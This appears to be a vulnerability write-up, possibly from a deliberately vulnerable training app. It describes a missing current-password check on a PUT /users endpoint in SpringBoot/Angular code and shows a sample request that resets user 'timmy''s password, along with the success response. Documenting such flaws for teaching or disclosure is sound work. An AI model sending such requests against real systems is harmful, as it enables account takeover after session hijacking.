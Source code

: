 # Lack Password Change Validation/Check
It is widely acknowledged that for users to change a password they ought to be questioned for their current password.  This prevents session hijacks from changing the user's password after gaining control.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

SpringBoot and Angular code lack any validating parameter for the current password. To exploit simply means to change the password as this is exactly what a session hijacker would do.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "newPassword" : "password",
        "username" : "timmy"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }
